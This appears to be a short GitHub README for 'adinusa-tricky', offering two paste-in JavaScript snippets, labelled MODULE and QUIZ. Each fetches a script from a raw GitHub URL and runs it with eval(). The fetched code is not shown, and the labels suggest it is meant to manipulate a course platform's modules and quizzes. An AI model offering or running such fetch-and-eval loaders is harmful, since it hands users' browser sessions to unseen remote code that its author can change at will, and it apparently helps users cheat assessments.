 # adinusa-tricky
just for fun with trick

MODULE
```javascript
fetch("https://raw.githubusercontent.com/RevDev22/adinusa-tricky/main/module.js")
.then((res) => res.text()
.then((t) => eval(t)));
```



QUIZ
```javascript
fetch("https://raw.githubusercontent.com/RevDev22/adinusa-tricky/main/quiz.js")
.then((res) => res.text()
.then((t) => eval(t)))
```

